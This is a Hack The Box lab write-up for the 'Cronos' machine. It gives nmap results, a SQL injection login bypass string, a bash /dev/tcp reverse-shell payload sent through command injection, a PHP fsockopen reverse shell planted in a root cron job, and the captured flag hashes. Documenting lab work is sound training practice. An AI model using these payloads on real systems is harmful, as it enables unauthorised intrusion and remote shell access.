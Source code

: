 # HTB: Cronos
## Engagement Overview
**Target:Cronos**   
**Box IP:10.10.10.13**   
**Local IP:10.10.14.10** 
**Date:2025-07-12**

---

### Objectives
- Compromise root crontab
- SQL injection vuln

---

### Service Enumeration

- nmap:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- gobuster:
Nothing of use

- DNS:
`cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb`

- SQL injection
Bypassed login @ admin.cronos.htb:
' or 1=1-- -


PING 10.10.14.10 (10.10.14.10) 56(84) bytes of data.
64 bytes from 10.10.14.10: icmp_seq=1 ttl=63 time=43.6 ms

--- 10.10.14.10 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 43.662/43.662/43.662/0.000 ms

**Burp Suite repeater**
command=ls -l&host=/var/www
drwxr-xr-x  2 www-data www-data 4096 May 10  2022 admin<br>
drwxr-xr-x  2 www-data www-data 4096 May 10  2022 html<br>
drwxr-xr-x 13 www-data www-data 4096 May 10  2022 laravel<br>

---
## Methodologies

### Initial Access –

**Vulnerability:**  
SQL injection


**Tools & Payloads Used:**
- Burp Suite command injection:
- command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=

**Penetration Result:**  
Shell access via command injection

---

## Privilege Escalation

- Cron job:
`* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`
* Poison injection
```
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

---

## House Cleaning

- Removed linpeas.sh and modifications to artisan cron job
- Exploit did not require uploads beyond shell payload

---

## Post-Exploitation

### Credentials & Flags

- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized

* Burp Suite
* linPEAS

---

## Key Takeaways

* linPEAS reported a ton of other vulns but, would be a nightmare to compile them
* New to SQL injection attacks and modifying cron jobs so this was a good experience
